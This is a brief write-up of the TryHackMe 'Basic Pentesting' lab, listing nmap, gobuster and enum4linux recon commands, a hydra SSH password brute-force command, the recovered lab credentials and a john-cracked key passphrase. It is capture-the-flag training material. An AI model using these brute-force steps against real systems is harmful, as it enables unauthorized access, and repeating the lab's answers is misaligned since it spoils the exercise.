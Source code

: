 # BasicPentesting

link to the room: [`https://tryhackme.com/room/basicpentestingjt`]

`export ip=10.10.155.6`

## Recon

### nmap

- command: `nmap -sC -sV -v -T3 -oN recon/nmap $ip`

### gobuster
- command: `gobuster -u http://$ip -w ~/Personal/tools/wordlists/dirbuster/directory-list-2.3-small.txt -o recon/gobuster`

### enum4linux
- command `enum4linux -a $ip | tee recon/enum4linux.log`

## TASK

- hidden dir `development` found by gobuster.

- usernames `Jan` & `kay` found by enum4linux.

- use `hydra` to bruteforce ssh password.
    - command: `hydra -l jan -P ~/Personal/tools/wordlists/rockyou.txt ssh://$ip | tee recon/hydra.log`
- found ssh password `jan:armando` by hydra.

- privesc execute `linpeash`

- bruteforce passphrase private rsa key with john we found `beeswax`